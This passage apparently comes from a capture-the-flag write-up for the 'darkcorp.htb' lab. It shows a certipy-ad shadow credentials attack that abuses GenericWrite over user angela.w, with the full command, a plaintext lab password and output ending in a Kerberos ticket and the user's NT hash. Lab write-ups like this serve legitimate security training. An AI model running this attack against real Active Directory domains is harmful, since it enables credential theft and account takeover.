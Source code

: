 ![alt text](../assets/images/darkcorp30.png)

okey we have genericwrite on angela.w we can do shadow attack here with certipy-ad and grab angela.w NT hash.

```bash
certipy-ad shadow auto -username john.w@darkcorp.htb -password 'Pack_Beneath_Solid9!'  -account angela.w -dc-ip 172.16.20.1
Certipy v5.0.2 - by Oliver Lyak (ly4k)
[!] Use -debug to print a stacktrace
[*] Targeting user 'angela.w'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID 'dc29ea5f-4dbd-f242-6363-179e9635c203'
[*] Adding Key Credential with device ID 'dc29ea5f-4dbd-f242-6363-179e9635c203' to the Key Credentials for 'angela.w'
[*] Successfully added Key Credential with device ID 'dc29ea5f-4dbd-f242-6363-179e9635c203' to the Key Credentials for 'angela.w'
[*] Authenticating as 'angela.w' with the certificate
[*] Certificate identities:
[*]     No identities found in this certificate
[*] Using principal: 'angela.w@darkcorp.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'angela.w.ccache'
[*] Wrote credential cache to 'angela.w.ccache'
[*] Trying to retrieve NT hash for 'angela.w'
[*] Restoring the old Key Credentials for 'angela.w'
[*] Successfully restored the old Key Credentials for 'angela.w'
[*] NT hash for 'angela.w': 957246c8137069bca672dc6aa0af7c7a
```

